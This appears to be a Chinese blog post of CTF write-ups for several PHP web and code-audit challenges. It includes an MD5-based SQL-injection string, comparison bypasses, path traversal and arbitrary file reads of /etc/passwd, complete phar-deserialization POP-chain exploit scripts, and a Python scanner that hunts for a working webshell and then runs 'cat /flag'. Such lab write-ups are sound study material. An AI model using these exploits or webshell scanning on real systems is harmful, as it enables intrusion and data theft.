

NSSCTF 上写的几道代码审计题目
[SWPUCTF 2022 新生赛]奇妙的MD5 哈哈，我还真没听过…
ffifdyop
经过md5加密后：276f722736c95d99e921722cf9ed621c
再转换为字符串：’or’6<乱码> 即 ‘or’66�]��!r,��b
用途：
select * from admin where password=’’or’6<乱码>’
就相当于select * from admin where password=’’or 1 实现sql注入
输入进去，页面提示在哪里找找线索，那自然是右键查看源代码
最上面看到 php 代码，一个简单的 md5 若碰撞
1 2 3 4 5 6 <!-- $x = $GET ['x' ];$y = $_GET ['y' ];if ($x != $y && md5 ($x ) == md5 ($y )){ ; -->
payload
得到另一个 php 代码，post 传参的 md5 强碰撞,没有对参数字符串化，还是可以数组绕过
1 2 3 4 5 6 7 8 9 <?php error_reporting (0 );include "flag.php" ;highlight_file (__FILE__ );if ($_POST ['wqh' ]!==$_POST ['dsy' ]&&md5 ($_POST ['wqh' ])===md5 ($_POST ['dsy' ])){ echo $FLAG ; }
payload
[SWPUCTF 2022 新生赛]numgame 页面就一个计算的东西，但是无论如何也到不了 20，本来想着 F12，但是打不开，Ctrl+Shift+I 直接退出了页面
越是不要我看我就要看！直接 bp 抓包，看到了一个 js 文件
访问一下，最后一行得到
NSSCTF{TnNTY1RmLnBocA==}
base64 解码得到
NsScTf.php
访问得到 php 代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php error_reporting (0 );include ("flag.php" );class nss static function ctf ( include ("./hint2.php" ); } } if (isset ($_GET ['p' ])){ if (preg_match ("/n|c/m" ,$_GET ['p' ], $matches )) die ("no" ); call_user_func ($_GET ['p' ]); }else { highlight_file (__FILE__ ); }
第 3 行与 get 相似那就是 post，看样子是要 get 和 post 同时传入 p
第 7 行，访问 hint2.php 得到提示
有没有一种可能，类是nss2
第 11 行不允许 p 里面出现 n 或 c，不能有 m，但是只匹配了小写，可以大小写绕过
第 13 行，call_user_func 函数，从示例四这里可以得到有效信息

我们这里的情况类似于第 13 行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php class myclass static function say_hello ( { echo "Hello!\n" ; } } $classname = "myclass" ;call_user_func (array ($classname , 'say_hello' ));call_user_func ($classname .'::say_hello' );$myobject = new myclass ();call_user_func (array ($myobject , 'say_hello' ));?>
类名是 nss2，方法名是 ctf
payload
传入后 F12 得到 flag，这个我还以为出错了….
[HCTF 2018]Warmup F12 得到 source.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 <?php highlight_file (__FILE__ ); class emmm { public static function checkFile (&$page ) { $whitelist = ["source" =>"source.php" ,"hint" =>"hint.php" ]; if (! isset ($page ) || !is_string ($page )) { echo "you can't see it" ; return false ; } if (in_array ($page , $whitelist )) { return true ; } $_page = mb_substr ( $page , 0 , mb_strpos ($page . '?' , '?' ) ); if (in_array ($_page , $whitelist )) { return true ; } $_page = urldecode ($page ); $_page = mb_substr ( $_page , 0 , mb_strpos ($_page . '?' , '?' ) ); if (in_array ($_page , $whitelist )) { return true ; } echo "you can't see it" ; return false ; } } if (! empty ($_REQUEST ['file' ]) && is_string ($_REQUEST ['file' ]) && emmm::checkFile ($_REQUEST ['file' ]) ) { include $_REQUEST ['file' ]; exit ; } else { echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />" ; } ?>
第 7 行有一个 hint.php，访问得到 flag 的路径
flag not here, and flag in ffffllllaaaagggg
第 40 行的 if 函数，要求 file 不为空并且是字符串，还调用了 emmm 类要返回 true 才行
emmm 里面有好几个方法返回 true
首先是 in_array 这个函数，也就是如果第一个参数在第二个参数里面出现了，为 true
再就是 mb_strpos ，查找第二个参数在第一个参数里面首次出现的位置，mb_strpos($_page . '?', '?')也就是返回 page 的长度
，第 17 行到 21 行来说，结果就是_page = page
26 行的反序列化会彻底打乱 _page 的字符，32 行其实不好去判断，所以主要对 13 行和 22 行进行判断
综上， file 里面要有 source.php 或者 hint.php，同时还要有 flag 的地址 ffffllllaaaagggg，所以 13 行不行，只能 22 行，因为 _page 会以 ？为分隔符获取 page 的内容，因此，source.php 后面要跟一个 ？，这样 _page 的值就是 source.php，？ 再跟 ffffllllaaaagggg
由于不知道 ffffllllaaaagggg 在第几层，一个个 ../试过去
payload
1 ?file=source.php?../../../../../ffffllllaaaagggg
[CISCN 2019华北Day1]Web1 注册个账号进去，只有一个上传文件的功能，上传后也只能下载和删除，找不到注入点
没思路就抓包，上传文件抓了没啥东西，那就抓下载文件的包
修改 filename=/etc/passwd
发现能过读取文件，再想着一开始在 F12 里面看到的几个 php 文件，想必也能读取出来
filename=/var/www/html/index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php session_start ();if (!isset ($_SESSION ['login' ])) { header ("Location: login.php" ); die (); } ?> <?php include "class.php" ;$a = new FileList ($_SESSION ['sandbox' ]);$a ->Name ();$a ->Size ();?>
filename=/var/www/html/login.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php session_start ();if (isset ($_SESSION ['login' ])) { header ("Location: index.php" ); die (); } ?> <?php include "class.php" ;if (isset ($_GET ['register' ])) { echo "<script>toast('娉ㄥ唽鎴愬姛', 'info');</script>" ; } if (isset ($_POST ["username" ]) && isset ($_POST ["password" ])) { $u = new User (); $username = (string ) $_POST ["username" ]; $password = (string ) $_POST ["password" ]; if (strlen ($username ) < 20 && $u ->verify_user ($username , $password )) { $_SESSION ['login' ] = true ; $_SESSION ['username' ] = htmlentities ($username ); $sandbox = "uploads/" . sha1 ($_SESSION ['username' ] . "sftUahRiTz" ) . "/" ; if (!is_dir ($sandbox )) { mkdir ($sandbox ); } $_SESSION ['sandbox' ] = $sandbox ; echo ("<script>window.location.href='index.php';</script>" ); die (); } echo "<script>toast('璐﹀彿鎴栧瘑鐮侀敊璇�', 'warning');</script>" ; } ?>
filename=/var/www/html/class.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 <?php error_reporting (0 );$dbaddr = "127.0.0.1" ;$dbuser = "root" ;$dbpass = "root" ;$dbname = "dropbox" ;$db = new mysqli ($dbaddr , $dbuser , $dbpass , $dbname );class User public $db ; public function __construct ( global $db ; $this ->db = $db ; } public function user_exist ($username $stmt = $this ->db->prepare ("SELECT `username` FROM `users` WHERE `username` = ? LIMIT 1;" ); $stmt ->bind_param ("s" , $username ); $stmt ->execute (); $stmt ->store_result (); $count = $stmt ->num_rows; if ($count === 0 ) { return false ; } return true ; } public function add_user ($username , $password if ($this ->user_exist ($username )) { return false ; } $password = sha1 ($password . "SiAchGHmFx" ); $stmt = $this ->db->prepare ("INSERT INTO `users` (`id`, `username`, `password`) VALUES (NULL, ?, ?);" ); $stmt ->bind_param ("ss" , $username , $password ); $stmt ->execute (); return true ; } public function verify_user ($username , $password if (!$this ->user_exist ($username )) { return false ; } $password = sha1 ($password . "SiAchGHmFx" ); $stmt = $this ->db->prepare ("SELECT `password` FROM `users` WHERE `username` = ?;" ); $stmt ->bind_param ("s" , $username ); $stmt ->execute (); $stmt ->bind_result ($expect ); $stmt ->fetch (); if (isset ($expect ) && $expect === $password ) { return true ; } return false ; } public function __destruct ( $this ->db->close (); } } class FileList private $files ; private $results ; private $funcs ; public function __construct ($path $this ->files = array (); $this ->results = array (); $this ->funcs = array (); $filenames = scandir ($path ); $key = array_search ("." , $filenames ); unset ($filenames [$key ]); $key = array_search (".." , $filenames ); unset ($filenames [$key ]); foreach ($filenames as $filename ) { $file = new File (); $file ->open ($path . $filename ); array_push ($this ->files, $file ); $this ->results[$file ->name ()] = array (); } } public function __call ($func , $args array_push ($this ->funcs, $func ); foreach ($this ->files as $file ) { $this ->results[$file ->name ()][$func ] = $file ->$func (); } } public function __destruct ( $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">' ; $table .= '<thead><tr>' ; foreach ($this ->funcs as $func ) { $table .= '<th scope="col" class="text-center">' . htmlentities ($func ) . '</th>' ; } $table .= '<th scope="col" class="text-center">Opt</th>' ; $table .= '</thead><tbody>' ; foreach ($this ->results as $filename => $result ) { $table .= '<tr>' ; foreach ($result as $func => $value ) { $table .= '<td class="text-center">' . htmlentities ($value ) . '</td>' ; } $table .= '<td class="text-center" filename="' . htmlentities ($filename ) . '"><a href="#" class="download">涓嬭浇</a> / <a href="#" class="delete">鍒犻櫎</a></td>' ; $table .= '</tr>' ; } echo $table ; } } class File public $filename ; public function open ($filename $this ->filename = $filename ; if (file_exists ($filename ) && !is_dir ($filename )) { return true ; } else { return false ; } } public function name ( return basename ($this ->filename); } public function size ( $size = filesize ($this ->filename); $units = array (' B' , ' KB' , ' MB' , ' GB' , ' TB' ); for ($i = 0 ; $size >= 1024 && $i < 4 ; $i ++) $size /= 1024 ; return round ($size , 2 ).$units [$i ]; } public function detele ( unlink ($this ->filename); } public function close ( return file_get_contents ($this ->filename); } } ?>
filename=/var/www/html/upload.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 <?php session_start ();if (!isset ($_SESSION ['login' ])) { header ("Location: login.php" ); die (); } include "class.php" ;if (isset ($_FILES ["file" ])) { $filename = $_FILES ["file" ]["name" ]; $pos = strrpos ($filename , "." ); if ($pos !== false ) { $filename = substr ($filename , 0 , $pos ); } $fileext = ".gif" ; switch ($_FILES ["file" ]["type" ]) { case 'image/gif' : $fileext = ".gif" ; break ; case 'image/jpeg' : $fileext = ".jpg" ; break ; case 'image/png' : $fileext = ".png" ; break ; default : $response = array ("success" => false , "error" => "Only gif/jpg/png allowed" ); Header ("Content-type: application/json" ); echo json_encode ($response ); die (); } if (strlen ($filename ) < 40 && strlen ($filename ) !== 0 ) { $dst = $_SESSION ['sandbox' ] . $filename . $fileext ; move_uploaded_file ($_FILES ["file" ]["tmp_name" ], $dst ); $response = array ("success" => true , "error" => "" ); Header ("Content-type: application/json" ); echo json_encode ($response ); } else { $response = array ("success" => false , "error" => "Invaild filename" ); Header ("Content-type: application/json" ); echo json_encode ($response ); } } ?>
filename=/var/www/html/download.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php session_start ();if (!isset ($_SESSION ['login' ])) { header ("Location: login.php" ); die (); } if (!isset ($_POST ['filename' ])) { die (); } include "class.php" ;ini_set ("open_basedir" , getcwd () . ":/etc:/tmp" );chdir ($_SESSION ['sandbox' ]);$file = new File ();$filename = (string ) $_POST ['filename' ];if (strlen ($filename ) < 40 && $file ->open ($filename ) && stristr ($filename , "flag" ) === false ) { Header ("Content-type: application/octet-stream" ); Header ("Content-Disposition: attachment; filename=" . basename ($filename )); echo $file ->close (); } else { echo "File not exist" ; } ?>
filename=/var/www/html/delete.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php session_start ();if (!isset ($_SESSION ['login' ])) { header ("Location: login.php" ); die (); } if (!isset ($_POST ['filename' ])) { die (); } include "class.php" ;chdir ($_SESSION ['sandbox' ]);$file = new File ();$filename = (string ) $_POST ['filename' ];if (strlen ($filename ) < 40 && $file ->open ($filename )) { $file ->detele (); Header ("Content-type: application/json" ); $response = array ("success" => true , "error" => "" ); echo json_encode ($response ); } else { Header ("Content-type: application/json" ); $response = array ("success" => false , "error" => "File not exist" ); echo json_encode ($response ); } ?>
代码很多，连接数据库的是 class.php，关键的点在User类中
1 2 3 4 5 6 7 8 class User public $db ; public function __construct ( global $db ; $this ->db = $db ; } }
这里的 global 是引进全局变量，而这个 $db 是 class.php 里的变量
1 2 3 4 5 $dbaddr = "127.0.0.1" ;$dbuser = "root" ;$dbpass = "root" ;$dbname = "dropbox" ;$db = new mysqli ($dbaddr , $dbuser , $dbpass , $dbname );
所以在 User 类的 close() 调用的是mysqli::close
1 2 3 public function __destruct ( $this ->db->close (); }
但是在File类中也有个close()
1 2 3 public function close ( return file_get_contents ($this ->filename); }
同时在FileList类中有魔术方法__call()
1 2 3 4 5 6 public function __call ($func , $args array_push ($this ->funcs, $func ); foreach ($this ->files as $file ) { $this ->results[$file ->name ()][$func ] = $file ->$func (); } }
array_push 是把后面的参数添加到第一个参数里面，如果调用 close() 的话，就是先将方法名存储$this->funcs数组里
然后依次调用$this->files数组里的元素的 close() 方法，然后存储在$this->results[$file->name()][$func]
如果是 File 类的 close()，就是获取文件的内容，所以$this->files数组里的元素必须为 File 类的对象
然后看FileList类的析构函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 public function __destruct ( $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">' ; $table .= '<thead><tr>' ; foreach ($this ->funcs as $func ) { $table .= '<th scope="col" class="text-center">' . htmlentities ($func ) . '</th>' ; } $table .= '<th scope="col" class="text-center">Opt</th>' ; $table .= '</thead><tbody>' ; foreach ($this ->results as $filename => $result ) { $table .= '<tr>' ; foreach ($result as $func => $value ) { $table .= '<td class="text-center">' . htmlentities ($value ) . '</td>' ; } $table .= '<td class="text-center" filename="' . htmlentities ($filename ) . '"><a href="#" class="download">涓嬭浇</a> / <a href="#" class="delete">鍒犻櫎</a></td>' ; $table .= '</tr>' ; } echo $table ; }
这里先输出$this->funcs里的元素的值，然后输出$this->results数组里的数组元素的键值对，而在__call()函数里我们存储的文件的内容就在$result as $func => $value的$value里，所以只要构造$this->files的值，就可以在最后面输出其文件的内容，这样就可以获得 flag
构造 pop 链
User 类的析构函数为起点
1 2 3 public function __destruct ( $this ->db->close (); }
$this->db为FileList类的对象，然后触发其中的__call()方法，然后$this->db的$this->files数组成员的元素设置为File类的对象，调用File类的 close() 方法，并存储在$this->db的$this->results数组中，最后在FileList类的析构函数输出其值
然后构造 phar 文件，命名为 phar.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 <?php class User public $db ; } class File public $filename ; public function __construct ($name $this ->filename=$name ; } } class FileList private $files ; public function __construct ( $this ->files=array (new File ('/flag.txt' )); } } $o = new User (); $o ->db =new FileList (); @unlink ("phar.phar" ); $phar = new Phar ("phar.phar" ); $phar ->startBuffering (); $phar ->addFromString ("test.txt" , "test" ); $phar ->setStub ("<?php __HALT_COMPILER(); ?>" ); $phar ->setMetadata ($a ); $phar ->stopBuffering (); ?>
首先确认你的 php.ini 里面这里 phar.readonly = off
然后在本地访问你的 phar.php，这样它会在同目录下生成一个 phar.phar 文件，修改名字为 phar.jpg
然后把 phar.jpg 上传上去，对删除进行抓包，修改 filename=phar://phar.jpg，得到 flag
[SWPU 2018]SimplePHP 进去没东西，右键查看源码得到 flag 的地址
上传文件后也只显示上传成功的弹窗，在查看文件那里还是空白，但是在 url 栏那里有一个任意文件读取的功能
先看 index.php
1 2 3 4 <?php header ("content-type:text/html;charset=utf-8" ); include 'base.php' ;?>
得到 base.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php session_start(); ?> <!DOCTYPE html> <html> <head> <meta charset="utf-8"> <title>web3</title> <link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/css/bootstrap.min.css"> <script src="https://cdn.staticfile.org/jquery/2.1.1/jquery.min.js"></script> <script src="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <nav class="navbar navbar-default" role="navigation"> <div class="container-fluid"> <div class="navbar-header"> <a class="navbar-brand" href="index.php">首页</a> </div> <ul class="nav navbar-nav navbra-toggle"> <li class="active"><a href="file.php?file=">查看文件</a></li> <li><a href="upload_file.php">上传文件</a></li> </ul> <ul class="nav navbar-nav navbar-right"> <li><a href="index.php"><span class="glyphicon glyphicon-user"></span><?php echo $_SERVER['REMOTE_ADDR'];?></a></li> </ul> </div> </nav> </body> </html> <!--flag is in f1ag.php-->
看看本体 file.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php header ("content-type:text/html;charset=utf-8" ); include 'function.php' ; include 'class.php' ; ini_set ('open_basedir' ,'/var/www/html/' ); $file = $_GET ["file" ] ? $_GET ['file' ] : "" ; if (empty ($file )) { echo "<h2>There is no file to show!<h2/>" ; } $show = new Show (); if (file_exists ($file )) { $show ->source = $file ; $show ->_show (); } else if (!empty ($file )){ die ('file doesn\'t exists.' ); } ?>
得到 class.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 <?php class C1e4r public $test ; public $str ; public function __construct ($name { $this ->str = $name ; } public function __destruct ( { $this ->test = $this ->str; echo $this ->test; } } class Show public $source ; public $str ; public function __construct ($file { $this ->source = $file ; echo $this ->source; } public function __toString ( { $content = $this ->str['str' ]->source; return $content ; } public function __set ($key ,$value { $this ->$key = $value ; } public function _show ( { if (preg_match ('/http|https|file:|gopher|dict|\.\.|f1ag/i' ,$this ->source)) { die ('hacker!' ); } else { highlight_file ($this ->source); } } public function __wakeup ( { if (preg_match ("/http|https|file:|gopher|dict|\.\./i" , $this ->source)) { echo "hacker~" ; $this ->source = "index.php" ; } } } class Test public $file ; public $params ; public function __construct ( { $this ->params = array (); } public function __get ($key { return $this ->get ($key ); } public function get ($key { if (isset ($this ->params[$key ])) { $value = $this ->params[$key ]; } else { $value = "index.php" ; } return $this ->file_get ($value ); } public function file_get ($value { $text = base64_encode (file_get_contents ($value )); return $text ; } } ?>
upload_file.php
1 2 3 4 <?php include 'function.php' ; upload_file (); ?>
得到 function.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <?php include "base.php" ; header ("Content-type: text/html;charset=utf-8" ); error_reporting (0 ); function upload_file_do ( global $_FILES ; $filename = md5 ($_FILES ["file" ]["name" ].$_SERVER ["REMOTE_ADDR" ]).".jpg" ; if (file_exists ("upload/" . $filename )) { unlink ($filename ); } move_uploaded_file ($_FILES ["file" ]["tmp_name" ],"upload/" . $filename ); echo '<script type="text/javascript">alert("上传成功!");</script>' ; } function upload_file ( global $_FILES ; if (upload_file_check ()) { upload_file_do (); } } function upload_file_check ( global $_FILES ; $allowed_types = array ("gif" ,"jpeg" ,"jpg" ,"png" ); $temp = explode ("." ,$_FILES ["file" ]["name" ]); $extension = end ($temp ); if (empty ($extension )) { } else { if (in_array ($extension ,$allowed_types )) { return true ; } else { echo '<script type="text/javascript">alert("Invalid file!");</script>' ; return false ; } } } ?>
在 class.php 的第 23 行可以知道要利用 phar 反序列化，后缀名为 jpg，有用的也就 file.php 里面的 file_exists 函数，利用这个函数可以构造 pop 链
1 Cle4r->str=new Show(); __destruct()-> show::__toString() -> show::str['str']=new Test() -> Test::__get()->Test::get()->Test::paramas['source']=f1ag.php->Test::file_get()
exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php class C1e4r public $test ; public $str ; public function __construct ( $this ->str = new Show (); } } class Show public $source ; public $str ; public function __construct ( $this ->str=array ('str' =>new Test ()); } } class Test public $file ; public $params ; public function __construct ( $this ->params = array ('source' =>'/var/www/html/f1ag.php' ); } } $a =new C1e4r ();@unlink ("phar.phar" ); $phar =new Phar ("phar.phar" );$phar ->startBuffering ();$phar ->setStub ("<?php __HALT_COMPILER();?>" );$phar ->setMetadata ($a );$phar ->addFromString ("test.txt" ,"test" );$phar ->stopBuffering ();?>
将上述代码命名为 phar.php，本地访问 php，将生成的 phar.phar 改名为 phar.jpg 并上传
function.php 第 8 行对上传的文件名进行了 md5 加密
1 2 3 $filename = md5 ($_FILES ["file" ]["name" ].$_SERVER ["REMOTE_ADDR" ]).".jpg" ;
payload
file.php?file=phar://upload/68ed54627d081dd9f9ca00b5ce7e2372.jpg
访问得到 base64，解码得到 flag
[强网杯 2019]高明的黑客 根据提示，访问 www.tar.gz 得到源码
里面有 3001 个 php 和一个 index.html，而且 php 名字也得不到信息，随便点开几个 php 查看，可以看到一句话木马，随便试了几个没有反应
那么目的就很简单了，我们需要在这么多 php 里面找到可以利用的 一句话木马 ，我们再通过访问这个 php 里面的参数就可以达到 cat flag 的目的了
这么多 php 只能用脚本来跑，记得更改第 8 行为你的 php 地址，第 27 行为你的靶机地址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 import osimport requestsimport reimport threadingimport timeprint ('开始时间： ' + time.asctime( time.localtime(time.time()) ))s1=threading.Semaphore(100 ) filePath = r"src" os.chdir(filePath) requests.adapters.DEFAULT_RETRIES = 5 files = os.listdir(filePath) session = requests.Session() session.keep_alive = False def get_content (file ): s1.acquire() print ('trying ' +file+ ' ' + time.asctime( time.localtime(time.time()) )) with open (file,encoding='utf-8' ) as f: gets = list (re.findall('\$_GET\[\'(.*?)\'\]' , f.read())) posts = list (re.findall('\$_POST\[\'(.*?)\'\]' , f.read())) data = {} params = {} for m in gets: params[m] = "echo 'xxxxxx';" for n in posts: data[n] = "echo 'xxxxxx';" proxies = { "http" : None , "https" : None } url = 'http://1.14.71.254:28831/' +file req = session.post(url, data=data, params=params,proxies=proxies) req.close() req.encoding = 'utf-8' content = req.text if "xxxxxx" in content: flag = 0 for a in gets: req = session.get(url+'?%s=' %a+"echo 'xxxxxx';" ,proxies=proxies) content = req.text req.close() if "xxxxxx" in content: flag = 1 break if flag != 1 : for b in posts: req = session.post(url, data={b:"echo 'xxxxxx';" }) content = req.text req.close() if "xxxxxx" in content: break if flag == 1 : param = a else : param = b print ('找到了利用文件： ' +file+" and 找到了利用的参数：%s" %param) print ('结束时间： ' + time.asctime(time.localtime(time.time()))) s1.release() for i in files: t = threading.Thread(target=get_content, args=(i,)) t.start()
找到这个 php 文件，它是以 GET 传参的
payload
1 http://1.14.71.254:28831/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag
[UUCTF 2022 新生赛]funmd5 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 <?php error_reporting (0 );include "flag.php" ;$time =time ();$guessmd5 =md5 ($time );$md5 =$_GET ["md5" ];if (isset ($md5 )){ $sub =substr ($time ,-1 ); $md5 =preg_replace ('/^(.*)0e(.*)$/' ,'${1}no_science_notation!${2}' ,$md5 ); if (preg_match ('/0e/' ,$md5 [0 ])){ $md5 [0 ]=substr ($md5 [0 ],$sub ); if ($md5 [0 ]==md5 ($md5 [0 ])&&$md5 [1 ]===$guessmd5 ){ echo "well!you win again!now flag is yours.<br>" ; echo $flag ; } else { echo $md5 [0 ]; echo "oh!no!maybe you need learn more PHP!" ; } } else { echo "this is your md5:$md5 [0]<br>" ; echo "maybe you need more think think!" ; } } else { highlight_file (__FILE__ ); $sub =strlen ($md5 [0 ]); echo substr ($guessmd5 ,0 ,5 )."<br>" ; echo "plase give me the md5!" ; } ?>
先看获得 flag 的条件
1 2 3 4 if ($md5 [0 ]==md5 ($md5 [0 ])&&$md5 [1 ]===$guessmd5 ){ echo "well!you win again!now flag is yours.<br>" ; echo $flag ; }
第一个 $md5[0]==md5($md5[0]) 弱类型比较这个可以通过 0e绕过,但是 md5[0] 经过了 substr 的处理，根据这个函数的特性，要想不改变 md5[0] 的值只能让 sub=0，sub 又是来自于 time 的最后一位数字，所以这个需要用脚本多跑几次。
第二个条件 $md5[1]===$guessmd5，guessmd5 是来自对当前时间进行 md5，所以我们只能由 python 脚本来获取当前时间才能得到 md5[1] 的值
md5[0] 和 md5[1] 来自于 GET 传参的 md5，经过 preg_replace 函数会替换 0e ，可以用用 %0a 来绕过
1 $md5 =preg_replace ('/^(.*)0e(.*)$/' ,'${1}no_science_notation!${2}' ,$md5 );
所以我们的 $md5 其实要传入 md5[0] 和 md5[1]
python 脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 import requestsimport time as timeimport hashlibfor i in range (1 ): times = str (int (time.time())) print (times) md5 = hashlib.md5(times.encode()) md5value = md5.hexdigest() url = "http://1.14.71.254:28465/?md5[0]=%0a0e215962017&&md5[1]=" + md5value print (url) proxies = { "http" : None , "https" : None } res = requests.get(url=url,proxies=proxies) print (res.text)
但是不知道为什么我在 windows 下面跑不出来却能在 kali 里面跑出来，真是奇特